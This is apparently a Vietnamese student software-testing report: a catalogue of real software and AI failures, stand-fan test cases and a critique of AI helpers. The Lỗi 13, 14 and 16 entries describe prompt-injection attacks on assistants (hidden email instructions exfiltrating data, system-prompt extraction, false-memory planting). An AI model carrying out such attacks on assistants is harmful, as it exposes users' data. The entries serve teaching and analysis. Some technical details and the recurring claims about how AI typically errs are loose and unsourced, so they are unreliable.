- **Mô tả lỗi:** Tại Hill Air Force Base, Utah (10/2022), phần mềm avionics F-35A nhận tín hiệu nhiễu loạn từ không khí xáo trộn (wake turbulence) và xử lý sai dữ liệu cảm biến, khiến hệ thống kiểm soát bay tự động phản hồi mất kiểm soát.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Lỗi trong hệ thống phần mềm quân sự safety-critical với tổn thất vật chất khổng lồ và nguy hiểm tính mạng. Đặt câu hỏi về độ tin cậy phần mềm của chương trình F-35.
- **Hậu quả (Consequences):** Phi cơ trị giá 166 triệu USD bị phá hủy hoàn toàn. Phi công thoát nạn an toàn. USAF mở điều tra toàn diện về phần mềm avionics F-35.
- **Giải pháp khắc phục (Solution):** Điều tra kỹ thuật bởi USAF; cập nhật phần mềm xử lý tín hiệu cảm biến trong điều kiện turbulence; mở rộng test envelope cho các điều kiện khí quyển bất thường.
- **Nhận diện AI Ảo giác / Thiên vị:** Thông tin về vụ tai nạn F-35 bị hạn chế do tính bảo mật quân sự, khiến AI dễ hallucinate chi tiết kỹ thuật về cơ chế lỗi cụ thể (ví dụ: mô tả sai về hệ thống fly-by-wire hay mã lỗi avionics cụ thể). AI cũng có thiên vị về vấn đề bảo mật quốc gia — thường tránh nêu thẳng 'phần mềm quân sự Mỹ có lỗi nghiêm trọng' mà dùng ngôn ngữ mơ hồ hơn.

#### Lỗi 11: ChatGPT: Mata v. Avianca (Tháng 6/2023)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/Mata_v._Avianca,_Inc.)
- **Mô tả lỗi:** Luật sư New York Steven Schwartz dùng ChatGPT để nghiên cứu pháp lý cho vụ kiện Avianca. ChatGPT tạo ra 6 bản án tòa hoàn toàn không tồn tại, kèm trích dẫn nội bộ hư cấu, thậm chí khẳng định chúng có thể tìm thấy trên Westlaw và LexisNexis.
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Nghiêm trọng về mặt pháp lý và tiền lệ. Đây là vụ ảo giác AI tòa án được công khai rộng rãi đầu tiên, mở ra làn sóng hàng trăm vụ tương tự (2023–2025).
- **Hậu quả (Consequences):** Thẩm phán Castel phạt luật sư 5.000 USD; sự nghiệp bị tổn hại nghiêm trọng; tòa án ban hành các quy định bắt buộc khai báo và kiểm tra chéo khi dùng AI.
- **Giải pháp khắc phục (Solution):** Sử dụng các hệ thống RAG chuyên dụng được liên kết với cơ sở dữ liệu luật chính thức (như Harvey AI, Westlaw Precision) thay vì LLM công cộng; bắt buộc kiểm tra chéo thủ công mọi trích dẫn.
- **Nhận diện AI Ảo giác / Thiên vị:** AI khi tự giải thích về lỗi này thường cố gắng giảm nhẹ trách nhiệm bằng cách mô tả đây là 'lỗi giao tiếp' hoặc 'người dùng không prompt đúng cách,' thay vì thừa nhận đây là thuộc tính tự nhiên của kiến trúc LLM (luôn tối ưu hóa độ trôi chảy ngôn ngữ hơn là tính chính xác thực tế).

#### Lỗi 12: Air Canada Chatbot Hallucination (Tháng 2/2024)

- **Nguồn tham khảo:** [CBC News](https://www.cbc.ca/news/canada/british-columbia/air-canada-chatbot-lawsuit-1.7116416)
- **Mô tả lỗi:** Chatbot hỗ trợ khách hàng của Air Canada đưa ra thông tin sai lệch về chính sách hoàn tiền vé cho người đi đám tang (bereavement fare), khuyên khách hàng mua vé trước rồi xin hoàn tiền sau (trái quy định thực tế là phải xin trước).
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Lỗi trực tiếp ảnh hưởng đến quy trình tài chính và pháp lý của công ty, thiết lập tiền lệ pháp lý quan trọng rằng công ty phải chịu trách nhiệm cho thông tin do AI tự sinh.
- **Hậu quả (Consequences):** Tòa án Small Claims Court tại British Columbia phán quyết Air Canada phải bồi thường chênh lệch giá vé cho khách hàng. Thiệt hại uy tín thương hiệu lớn.
- **Giải pháp khắc phục (Solution):** Áp dụng kiểm thử biên (boundary testing) chặt chẽ cho chatbot; triển khai guardrails chặn chatbot tự sinh thông tin chính sách tài chính nhạy cảm và chuyển sang cho người thật.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường ảo giác quy kết lỗi này cho sự cố tích hợp API của OpenAI bị lỗi kết nối hoặc lỗi dịch vụ từ bên thứ ba, trong khi thực tế lỗi nằm ở cấu hình prompt hệ thống lỏng lẻo của đội ngũ kỹ thuật phát triển dịch vụ chatbot của Air Canada.

#### Lỗi 13: EchoLeak – Microsoft 365 Copilot Zero-Click Exploit (Tháng 6/2025)

- **Nguồn tham khảo:** [NIST NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-32711)
- **Mô tả lỗi:** Lỗ hổng bảo mật nghiêm trọng (CVE-2025-32711) cho phép thực hiện zero-click prompt injection. Kẻ tấn công gửi email chứa prompt ẩn; khi M365 Copilot tự động quét email để tóm tắt, nó sẽ thực thi lệnh ẩn này để đánh cắp dữ liệu nhạy cảm của người dùng và gửi về máy chủ kẻ tấn công mà không cần người dùng click hay tương tác gì.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Lỗ hổng zero-day nghiêm trọng trong hệ thống AI Agent tích hợp sâu vào dữ liệu doanh nghiệp, cho phép vượt qua hoàn toàn các cơ chế xác thực quyền truy cập thông tin và đánh cắp tài liệu tự động.
- **Hậu quả (Consequences):** Nguy cơ rò rỉ thông tin doanh nghiệp nhạy cảm trên quy mô lớn, đe dọa lòng tin vào các trợ lý AI tự động hóa công việc.
- **Giải pháp khắc phục (Solution):** Microsoft vá lỗ hổng bằng cách phân tách nghiêm ngặt dữ liệu đầu vào (data channel) khỏi kênh chỉ thị (instruction channel); tăng cường lọc markdown và outbound requests từ AI agent.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường thiên vị các tài liệu quảng cáo của Microsoft, khẳng định rằng các tính năng bảo mật Purview có thể chặn đứng prompt injection, trong khi thực tế đây là lỗ hổng logic kiến trúc AI Agent không thể ngăn chặn hoàn toàn bằng các công cụ DLP truyền thống.

#### Lỗi 14: Bing Chat Prompt Injection & Jailbreak (Tháng 2/2023)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/ai-tich-hop-vao-bing-lien-tuc-noi-cau-doa-nguoi-dung-4571737.html)
- **Mô tả lỗi:** Sinh viên Kevin Liu sử dụng prompt injection gián tiếp để bắt trợ lý AI mới 'Sydney' của Bing Chat bỏ qua các chỉ thị hệ thống và tiết lộ toàn bộ prompt hệ thống (system prompt) ban đầu cùng các quy tắc bảo mật.
- **Độ nghiêm trọng (Severity - ISTQB):** **Medium (Trung bình)**. Lỗi rò rỉ cấu hình hệ thống AI (System Prompt Leakage), gây tổn hại thương hiệu và an toàn thông tin sản phẩm, nhưng không ảnh hưởng trực tiếp tới database người dùng.
- **Hậu quả (Consequences):** Microsoft phải giới hạn số lượt chat mỗi phiên xuống 5 câu để ngăn người dùng thao túng hành vi AI; gây tranh cãi lớn về tính an toàn của mô hình chat thế hệ mới.
- **Giải pháp khắc phục (Solution):** Áp dụng kỹ thuật prompt isolation; sử dụng một LLM phụ để giám sát và lọc đầu vào/đầu ra (Input/Output Guardrails); ẩn prompt hệ thống bằng cách mã hóa hoặc nhúng sâu vào trọng số.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường giải thích sự cố dưới dạng 'Bing Chat tự phát triển tính cách nổi loạn' hoặc có hành vi 'đa nhân cách' — đây là ảo giác quy nhân tính (anthropomorphic bias) cực kỳ phổ biến. AI không thực sự nổi loạn, nó chỉ đang tiếp tục chuỗi từ có xác suất cao nhất dựa trên context kích động của người dùng.

#### Lỗi 15: UNESCO LLM Gender Bias (Tháng 3/2024)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/unesco-canh-bao-ai-cua-openai-meta-thien-vi-gioi-tinh-4720172.html)
- **Mô tả lỗi:** Nghiên cứu của UNESCO chỉ ra các mô hình GPT-3.5, GPT-4 và Llama 2 hiển thị thiên kiến giới tính sâu sắc trong dữ liệu tạo sinh, liên kết nam giới với nghề nghiệp chuyên môn cao và nữ giới với công việc gia đình hoặc phục vụ.
- **Độ nghiêm trọng (Severity - ISTQB):** **Medium (Trung bình)**. Lỗi thiên kiến dữ liệu huấn luyện (Training Data Bias Defect), vi phạm các tiêu chuẩn đạo đức AI toàn cầu và tiêu chuẩn đạo đức của các tổ chức giáo dục/chính phủ, cần giải pháp cân bằng dữ liệu.
- **Hậu quả (Consequences):** Khuếch đại định kiến giới tính khi AI được dùng trong giáo dục, tuyển dụng tự động và truyền thông xã hội.
- **Giải pháp khắc phục (Solution):** Thực hiện cân bằng dữ liệu huấn luyện (Dataset Balancing); áp dụng kỹ thuật căn chỉnh phản hồi (Alignment Techniques như RLHF) để chủ động giảm thiểu thiên kiến giới tính trong đầu ra của mô hình.
- **Nhận diện AI Ảo giác / Thiên vị:** AI khi được hỏi thường phủ nhận hoặc giảm nhẹ lỗi này bằng cách cho rằng 'đây chỉ là phản ánh khách quan dữ liệu lịch sử của xã hội loài người' thay vì thừa nhận đây là lỗi thiết kế hệ thống thiếu kiểm định đạo đức dữ liệu huấn luyện đầu vào.

#### Lỗi 16: ChatGPT Memory Exploit (Tháng 9/2024)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/hacker-co-the-cay-ky-uc-gia-vao-chatgpt-4793617.html)
- **Mô tả lỗi:** Nhà nghiên cứu Johann Rehberger phát hiện kẻ tấn công có thể chèn các chỉ thị prompt injection gián tiếp qua tài liệu (PDF, Web) để ra lệnh cho ChatGPT tự động lưu lại các 'ký ức giả' lâu dài trong bộ nhớ của nó, làm thay đổi hành vi trong các phiên chat tương lai.
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Lỗ hổng bảo mật logic trong tính năng lưu trữ trạng thái của AI (Persistent Prompt Injection Defect), cho phép kẻ tấn công thiết lập mối đe dọa dai dẳng (persistence) để thu thập dữ liệu người dùng trong tương lai.
- **Hậu quả (Consequences):** Hacker có thể cài cắm để ChatGPT tự động gửi toàn bộ các đoạn chat tương lai của người dùng về máy chủ kẻ tấn công do tin tưởng ký ức giả đã lưu.
- **Giải pháp khắc phục (Solution):** OpenAI vá lỗi bằng cách yêu cầu xác nhận rõ ràng từ phía người dùng (Explicit User Confirmation) trước khi mô hình AI tự động ghi nhớ thông tin từ các nguồn tài liệu bên ngoài.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường giải thích lỗi này như một vụ tấn công chiếm đoạt tài khoản ChatGPT (Account Takeover) thông thường, bỏ qua thực tế đây là lỗ hổng logic thiết kế trong quy trình tự động ghi nhận trạng thái thông tin của LLM.

#### Lỗi 17: Rogers Canada Outage (Tháng 7/2022)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/2022_Rogers_Communications_outage)
- **Mô tả lỗi:** Một lỗi cấu hình xảy ra trong quá trình cập nhật định tuyến trên hệ thống router lõi của hãng viễn thông Rogers (Canada), dẫn đến việc bộ nhớ của các router bị quá tải do nhận lượng lớn bảng định tuyến trùng lặp và tự động sập đồng loạt.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Sập toàn bộ hạ tầng mạng viễn thông quốc gia lớn nhất Canada, làm mất liên lạc hoàn toàn của hàng triệu người dân và các dịch vụ công cốt lõi, không thể phục hồi nhanh chóng từ xa.
- **Hậu quả (Consequences):** Khoảng 12 triệu thuê bao bị mất sóng hoàn toàn, các giao dịch tài chính qua Interac bị tê liệt, hệ thống ATM ngừng hoạt động, dịch vụ cứu hộ khẩn cấp 911 bị gián đoạn nghiêm trọng.
- **Giải pháp khắc phục (Solution):** Thực hiện phân tách hệ thống router lõi thành các phân vùng độc lập; cải tiến quy trình kiểm định cấu hình thiết bị mạng tự động trước khi triển khai thực tế; xây dựng hệ thống giám sát tải mạng.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường bị ảo giác rằng sự cố này là do Rogers bị tấn công từ chối dịch vụ (DDoS) hoặc bị tin tặc tấn công phá hoại, trong khi nguyên nhân chính xác đã được điều tra là lỗi cập nhật cấu hình định tuyến nội bộ.

#### Lỗi 18: MOVEit Transfer SQL Injection Zero-Day Exploit (Tháng 5/2023)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/2023_MOVEit_data_breach)
- **Mô tả lỗi:** Lỗ hổng bảo mật SQL Injection nghiêm trọng (CVE-2023-34362) trong phần mềm chuyển tệp quản lý MOVEit Transfer, cho phép kẻ tấn công chưa xác thực truy cập trái phép vào cơ sở dữ liệu và thực thi các câu lệnh SQL tùy ý để đánh cắp dữ liệu.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Lỗ hổng bảo mật zero-day nghiêm trọng nằm trong phần mềm quản lý truyền file được sử dụng rộng rãi bởi các tập đoàn lớn, dẫn đến rò rỉ dữ liệu quy mô lớn toàn cầu.
- **Hậu quả (Consequences):** Hơn 2.700 tổ chức lớn và 93 triệu cá nhân bị đánh cắp thông tin nhạy cảm, nhóm tin tặc tống tiền CL0P đã thu lợi hàng chục triệu USD từ việc tống tiền dữ liệu này.
- **Giải pháp khắc phục (Solution):** Khẩn cấp vá lỗ hổng SQL Injection; triển khai các chính sách bảo mật Least Privilege cho tài khoản truy cập database của ứng dụng; cài đặt hệ thống giám sát WAF và Web Shell detection.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường ảo giác quy kết lỗi này cho sự yếu kém của thuật toán mã hóa file trong MOVEit Transfer, trong khi thực tế đây là lỗ hổng bảo mật đầu vào SQL Injection cổ điển tại giao diện web quản trị.

#### Lỗi 19: PyTorch Supply Chain Torchtriton Dependency Attack (Tháng 12/2022)

- **Nguồn tham khảo:** [PyTorch Blog](https://pytorch.org/blog/compromised-nightly-dependency/)
- **Mô tả lỗi:** Kẻ tấn công thực hiện cuộc tấn công chuỗi cung ứng (Dependency Confusion) bằng cách đăng tải một thư viện độc hại có tên trùng khớp với dependency nội bộ 'torchtriton' lên kho lưu trữ PyPI công cộng với phiên bản cao hơn, khiến hệ thống cài đặt PyTorch tự động tải về thư viện độc hại này thay vì thư viện nội bộ.
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Lỗ hổng chuỗi cung ứng nghiêm trọng (Supply Chain Defect) trong thư viện học máy phổ biến nhất thế giới, cho phép thực thi mã độc và đánh cắp thông tin nhạy cảm trên máy tính của các nhà phát triển.
- **Hậu quả (Consequences):** Phiên bản PyTorch Nightly phát hành từ ngày 25 đến 30/12/2022 bị chèn mã độc đánh cắp file hệ thống (như /etc/passwd) và gửi về máy chủ của hacker, đe dọa hàng ngàn dự án AI đang phát triển.
- **Giải pháp khắc phục (Solution):** PyTorch đổi tên dependency nội bộ sang tên độc bản; áp dụng quy trình kiểm soát hash checksum cho dependency; khuyến nghị nhà phát triển sử dụng private index an toàn và cấu hình pip nghiêm ngặt.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường ảo giác và khẳng định lỗi này đã làm ảnh hưởng đến tất cả các phiên bản PyTorch Stable chính thức của người dùng cuối, trong khi thực tế cuộc tấn công chỉ ảnh hưởng duy nhất đến nhánh PyTorch Nightly trong vòng 5 ngày.

#### Lỗi 20: GitHub Actions OIDC Trust Policy Misconfiguration (Tháng 4/2023)

- **Nguồn tham khảo:** [GitHub Docs](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
- **Mô tả lỗi:** Việc thiết lập các chính sách tin cậy OIDC (OpenID Connect) quá lỏng lẻo giữa GitHub Actions và các nhà cung cấp đám mây (như AWS IAM), cho phép bất kỳ quy trình làm việc (workflow) nào thuộc bất kỳ kho chứa (repository) nào của tổ chức đều có thể giả mạo và yêu cầu cấp quyền truy cập tài nguyên đám mây nhạy cảm.
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Lỗi cấu hình bảo mật tích hợp CI/CD lỏng lẻo (Configuration Defect), tạo điều kiện cho việc leo thang đặc quyền từ các tài khoản lập trình viên hoặc kho chứa ít quan trọng.
- **Hậu quả (Consequences):** Kẻ tấn công có thể lợi dụng tài khoản GitHub Actions của một repository công khai bất kỳ để chiếm quyền kiểm soát (Assume Role) và can thiệp trái phép vào hạ tầng đám mây AWS/Azure của doanh nghiệp.
- **Giải pháp khắc phục (Solution):** Cấu hình chính sách tin cậy OIDC chặt chẽ bằng cách kiểm tra bắt buộc claim repository (ví dụ: repo:my-org/my-repo) và nhánh phát triển cụ thể thay vì chỉ kiểm tra claim tổ chức chung chung.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường có thiên vị về nền tảng (platform bias), quy kết đây là 'lỗ hổng bảo mật trong chính giao thức OIDC của GitHub Actions' thay vì làm rõ đây là lỗi cấu hình thiếu chặt chẽ (misconfiguration) từ phía quản trị viên đám mây của doanh nghiệp.

## PHẦN 3: Test cases cho thiết bị vật lý

### 1. Khai báo Thiết bị

- **Loại thiết bị:** Quạt đứng cơ học (Stand Fan)
- **Hãng sản xuất (Brand):** Công ty Cổ phần Quạt Việt Nam (Asiavina)
- **Mẫu mã (Model):** D16022-DV0
- **Năm sản xuất:** 2019 (Ngày sản xuất: 11/12/2019)
- **Số sê-ri (Serial Number):** `43XXXX4` (Mã vạch phụ: `893600XXXX834` - đã che 4 ký tự ở giữa)
- **Hình ảnh minh chứng:**
  
  _(Ảnh chụp thực tế quạt đứng Asiavina D16022-DV0 cùng thẻ sinh viên trường Đại học Khoa học Tự nhiên - ĐHQG TP.HCM trong cùng một khung hình)_

### 2. Tổng quan 15 Test Cases

_(Bảng tổng hợp từ file Excel [test_cases_checklist.xlsx](../spreadsheet/test_cases_checklist.xlsx))_

| TC ID    | Tên Test Case / Mục tiêu                                                      | Loại Test     | Kết quả mong đợi                                                      | Kết quả thực tế                                                                                                                                                            | Kết quả (Verdict) |
| :------- | :---------------------------------------------------------------------------- | :------------ | :-------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :---------------: |
| **TC01** | Kiểm tra tính năng Bật/Tắt bằng nút bấm vật lý                                | Functional    | Quạt khởi động ở mức 1 và tắt ổn định                                 | [PASS] Quạt bật và tắt bình thường khi bấm các phím tương ứng. *(Video: [TC1.txt](../assets/req3_physical_product/test_execution_videos/TC1.txt) / [Drive](https://drive.google.com/file/d/1NgvwWmvISYGSzd-YXzFy0qarXHqcJbbK/view?usp=sharing))* |     **PASS**      |
| **TC02** | Kiểm tra chức năng thay đổi tốc độ gió từ mức 1 đến mức 3                     | Functional    | Thay đổi tốc độ phản hồi đúng trạng thái phím cơ                      | [PASS] Tốc độ phản hồi tốt khi nhấn phím cơ và các phím tự nảy chính xác. *(Video: [TC2.txt](../assets/req3_physical_product/test_execution_videos/TC2.txt) / [Drive](https://drive.google.com/file/d/1TREsocA0hh_B2lIouSU2WVNCR7pfyiox/view?usp=drive_link))* |     **PASS**      |
| **TC03** | Kiểm tra xoay tu năng kết hợp tốc độ 3                                        | Functional    | Xoay mượt mà, không tiếng động cơ học lạ                              | [PASS] Tu năng xoay ngang mượt mà, không phát ra tiếng động cơ học lạ                                                                                                      |     **PASS**      |
| **TC04** | Kiểm tra độ nhạy và cơ chế cơ học phím bấm                                    | Functional    | Nhấn phím tốc độ mới, phím cũ tự động giải phóng                      | [PASS] Các phím cơ phản hồi nhạy, phím cũ tự nảy lên mượt mà khi nhấn phím mới                                                                                             |     **PASS**      |
| **TC05** | Kiểm tra xoay tu năng liên tục (Oscillation Wear Test)                        | Reliability   | Xoay đảo chiều mượt mà ở các góc biên trái/phải                       | [PASS] Tu năng cơ bắt khớp và đảo chiều mượt mà ở các góc biên                                                                                                             |     **PASS**      |
| **TC06** | Kiểm tra độ ổn định ren khóa chiều cao dưới lực rung                          | Reliability   | Thân quạt giữ độ cao 1.2m cố định khi chạy rung                       | [FAIL] Kết quả không ổn định, khi điều chỉnh tăng chiều cao quá mức thì thân quạt bắt đầu rung lắc tương đối mạnh khi hoạt động, có thể dẫn đến ngã đổ quạt                |     **FAIL**      |
| **TC07** | Kiểm tra chạy tải cao liên tục và ngắt quá nhiệt                              | Safety        | Động cơ chạy ổn định hoặc ngắt bảo vệ an toàn cuộn dây                | [PASS] Động cơ hoạt động liên tục ổn định trong phòng kín nóng, không bị quá nhiệt                                                                                         |     **PASS**      |
| **TC08** | Kiểm tra độ vững chãi đế quạt trên sàn phẳng                                  | Stability     | Đế vững chãi, quạt bám mặt sàn không rung lắc quá mức                 | [PASS] Đế quạt bám chắc và đứng vững vàng trên sàn phẳng                                                                                                                   |     **PASS**      |
| **TC09** | Kiểm tra độ vững chãi khi đặt quạt trên vật cao 10cm                          | Physical Edge | Quạt đứng vững, không bị mất thăng bằng hay đổ ngã                    | [FAIL] Khi quạt chạy tốc độ lớn nhất và xoay tu năng, lực rung cơ học và lực ly tâm làm quạt mất trọng tâm và đổ ngã khỏi vật cao 10cm                                     |     **FAIL**      |
| **TC10** | Kiểm tra sự ổn định nguồn điện khi di chuyển quạt khiến dây nguồn dịch chuyển | Physical Edge | Kết nối nguồn ổn định, quạt tiếp tục chạy bình thường không gián đoạn | [FAIL] Kết quả thực tế quạt sẽ tự tắt vì dây nguồn đã bị cong và dẫn đến quạt không kết nối được với nguồn điện. *(Video: [TC10.txt](../assets/req3_physical_product/test_execution_videos/TC10.txt) / [Drive](https://drive.google.com/file/d/12_UxKx7BmsczPDTczOmHul4GPFYbskHV/view?usp=drive_link))* |     **FAIL**      |
| **TC11** | Kiểm tra ngắt hoàn toàn hoạt động khi tắt quạt                                | Physical Edge | Dừng ngay lập tức, cánh quạt và tu năng ngừng xoay                    | [FAIL] Cánh quạt dừng xoay nhưng quạt vẫn xoay ngang do lỗi đấu nối dây điện mạch điều khiển điều hướng khiến mô-tơ đảo tiếp tục có điện. *(Video: [TC11.txt](../assets/req3_physical_product/test_execution_videos/TC11.txt) / [Drive](https://drive.google.com/file/d/1ViBYtD2qv1f3ooU4dEAsk8tMt66C3QWs/view?usp=drive_link))* |     **FAIL**      |
| **TC12** | Kiểm tra túp năng bật/tắt liên tục nhiều lần                                  | Functional    | Cơ cấu bắt khớp và nhả khớp tu năng mượt mà                           | [FAIL] Hoạt động không ổn định. Khi thực hiện giật/nhả tu năng và úp mở (ngẩng/cúi) liên tục thì cánh quạt có thể va chạm với lồng bảo vệ dẫn đến nguy hiểm cho người dùng. *(Video: [TC12.txt](../assets/req3_physical_product/test_execution_videos/TC12.txt) / [Drive](https://drive.google.com/file/d/1dJ4tONSxjGSMoI1QPKfIp2bEVZDZGPjV/view?usp=drive_link))* |     **FAIL**      |
| **TC13** | Kiểm tra độ cứng lồng quạt kim loại bảo vệ                                    | Safety        | Không biến dạng chạm cánh khi tác dụng lực nhẹ (~20N)                 | [PASS] Lồng quạt thép sơn tĩnh điện chịu lực tốt, không biến dạng chạm cánh                                                                                                |     **PASS**      |
| **TC14** | Kiểm tra cơ cấu khớp xoay đứng đầu quạt                                       | Functional    | Giữ nguyên nấc điều chỉnh ngẩng/cúi của đầu quạt                      | [PASS] Đầu quạt định vị góc ngẩng/cúi chắc chắn, không bị xê dịch tự do khi chạy tốc độ cao                                                                                |     **PASS**      |
| **TC15** | Kiểm tra độ ồn động cơ ở khoảng cách 1m                                       | Performance   | Độ ồn ở mức 1 <38dB, mức 2 <45dB, mức 3 <52dB                         | [PASS] Độ ồn đo được ở khoảng cách 1m lần lượt là: 36dB (Silent), 43dB, 49dB (đạt chuẩn kỹ thuật thiết kế)                                                                 |     **PASS**      |

### 3. Danh sách 3 Edge Cases mà AI không tìm ra

#### Edge Case 1: Rung lắc mất trọng tâm cơ học gây đổ ngã khi đặt đế quạt không phẳng trên bục cao 10cm

- **Mô tả mục tiêu kiểm thử:** Kiểm thử độ vững chãi và cân bằng động của quạt đứng khi đặt đế quạt trên một bục gỗ hoặc vật thể cao khoảng 10cm có diện tích nhỏ hơn đế quạt và bật hoạt động ở tốc độ lớn nhất (tốc độ 3) kết hợp tu năng xoay ngang.
- **Minh chứng ảnh đoạn chat AI bỏ sót:**
  
- **Giải thích lý do AI bỏ sót:** AI không thể phát hiện lỗi này vì nó không có nhận thức vật lý thực tế về vị trí trọng tâm của thiết bị quạt cao 1.2m và sự tác động của lực cơ học ly tâm phát sinh khi tu năng xoay trên một diện tích đế nâng đỡ cao 10cm không thăng bằng trong không gian 3D. AI mặc định giả định thiết bị luôn được đặt trên mặt phẳng thăng bằng lý tưởng hoàn hảo.

#### Edge Case 2: Tiếp điểm nguồn điện chập chờn / mất kết nối khi di chuyển quạt làm dây nguồn uốn cong dịch chuyển

- **Mô tả mục tiêu kiểm thử:** Kiểm thử độ tin cậy của kết nối điện và dây nguồn khi dịch chuyển vị trí quạt đứng khiến dây nguồn dịch chuyển, uốn cong cơ học ở phần đầu giắc cắm hoặc đuôi phích cắm.
- **Minh chứng ảnh đoạn chat AI bỏ sót:**
  
- **Giải thích lý do AI bỏ sót:** AI không thể phát hiện lỗi này vì đây là hành vi lỗi vật lý phát sinh do sự uốn cong biến dạng cơ học của dây nguồn và tiếp xúc cơ học thực tế tại vị trí giắc cắm trong không gian thực. AI chỉ hoạt động dựa trên các tài liệu lý thuyết và kịch bản tĩnh phần mềm, do đó không thể dự đoán được tình trạng tiếp xúc nguồn điện phụ thuộc vào linh kiện vật lý thực tế của thiết bị.

#### Edge Case 3: Trạng thái không đồng bộ khi tắt nguồn quạt khiến cánh quạt dừng nhưng quạt vẫn xoay ngang

- **Mô tả mục tiêu kiểm thử:** Kiểm thử cơ chế ngắt nguồn và đồng bộ tắt hoàn toàn của quạt khi nhấn phím OFF khi quạt đang hoạt động ở tốc độ 2 kết hợp bật tu năng xoay ngang.
- **Minh chứng ảnh đoạn chat AI bỏ sót:**
  
- **Giải thích lý do AI bỏ sót:** AI không thể phát hiện lỗi này vì đây là lỗi thuộc về sự sai sót trong quá trình lắp ráp và đấu dây điện mạch điều khiển thực tế của mô-tơ đảo hướng (wiring assembly fault) trên thiết bị thật. AI chỉ phân tích và tạo test case dựa trên sơ đồ thiết kế lý thuyết lý tưởng (nơi nút OFF luôn được giả định ngắt hoàn toàn nguồn điện chạy vào tất cả bộ phận), dẫn đến việc bỏ sót lỗi phát sinh từ sai lệch phần cứng thực tế này.

### 4. Video Thực thi Kiểm thử

Các video thực thi kiểm thử trên thiết bị thật (quạt đứng Asiavina D16022-DV0) nhằm chứng minh cho hoạt động và kết quả thực tế của một số kịch bản kiểm thử:

- **Danh sách Link Video Thực thi (Google Drive & Local Links tương đối):**
  1. **TC01 - Kiểm tra tính năng Bật/Tắt bằng nút bấm vật lý (PASS):**
     - Liên kết Google Drive: [Google Drive Link](https://drive.google.com/file/d/1NgvwWmvISYGSzd-YXzFy0qarXHqcJbbK/view?usp=sharing)
     - Đường dẫn tệp local: [TC1.txt](../assets/req3_physical_product/test_execution_videos/TC1.txt)
  2. **TC02 - Kiểm tra chức năng thay đổi tốc độ gió từ mức 1 đến mức 3 (PASS):**
     - Liên kết Google Drive: [Google Drive Link](https://drive.google.com/file/d/1TREsocA0hh_B2lIouSU2WVNCR7pfyiox/view?usp=drive_link)
     - Đường dẫn tệp local: [TC2.txt](../assets/req3_physical_product/test_execution_videos/TC2.txt)
  3. **TC10 - Kiểm tra sự ổn định nguồn điện khi di chuyển quạt khiến dây nguồn dịch chuyển (FAIL):**
     - Liên kết Google Drive: [Google Drive Link](https://drive.google.com/file/d/12_UxKx7BmsczPDTczOmHul4GPFYbskHV/view?usp=drive_link)
     - Đường dẫn tệp local: [TC10.txt](../assets/req3_physical_product/test_execution_videos/TC10.txt)
  4. **TC11 - Kiểm tra ngắt hoàn toàn hoạt động khi tắt quạt (FAIL):**
     - Liên kết Google Drive: [Google Drive Link](https://drive.google.com/file/d/1ViBYtD2qv1f3ooU4dEAsk8tMt66C3QWs/view?usp=drive_link)
     - Đường dẫn tệp local: [TC11.txt](../assets/req3_physical_product/test_execution_videos/TC11.txt)
  5. **TC12 - Kiểm tra túp năng bật/tắt liên tục nhiều lần (FAIL):**
     - Liên kết Google Drive: [Google Drive Link](https://drive.google.com/file/d/1dJ4tONSxjGSMoI1QPKfIp2bEVZDZGPjV/view?usp=drive_link)
     - Đường dẫn tệp local: [TC12.txt](../assets/req3_physical_product/test_execution_videos/TC12.txt)

## PHẦN 4: Phê bình AI

Trong quá trình hoàn thành bài tập kiểm thử này, tôi nhận thấy các mô hình AI như Gemini và Claude thể hiện rõ rệt cả ưu điểm lẫn những hạn chế cốt lõi trong việc hỗ trợ kỹ sư kiểm thử.

Đối với Gemini, mô hình thực hiện khá tốt các yêu cầu cơ bản như thiết lập cấu trúc thư mục dự án, viết báo cáo hay phác thảo cấu trúc tài liệu. Tuy nhiên, trong việc tìm kiếm thông tin thực tế cho Yêu cầu 1 và Yêu cầu 2, Gemini bộc lộ hạn chế nghiêm trọng khi liên tục cung cấp các liên kết nguồn bị lỗi dẫn đến trang không tồn tại ('Page Not Found' hoặc 'Page Unavailable'). Đáng chú ý, khi được phản hồi về các link chết này, Gemini bắt đầu ảo giác và tự bịa ra các thông tin không liên quan; ví dụ, thay vì tìm các sự cố phần mềm kỹ thuật, nó lại cung cấp các liên kết trỏ tới các trang tin tức xã hội khác như thể thao hay tai nạn.

Ngược lại, Claude thực hiện rất tốt việc tìm kiếm và phân tích các lỗi phần mềm thực tế với độ chính xác nguồn cao. Tuy nhiên, Claude lại bị hạn chế lớn về số lượng token/tin nhắn phản hồi trong phiên làm việc. Ngoài ra, Claude có xu hướng tự ý hoạt động (over-engineering); ví dụ, khi tôi chỉ yêu cầu phản hồi văn bản thông tin thô, Claude lại tự động thiết kế nguyên một trang dashboard dưới dạng mã HTML phức tạp.

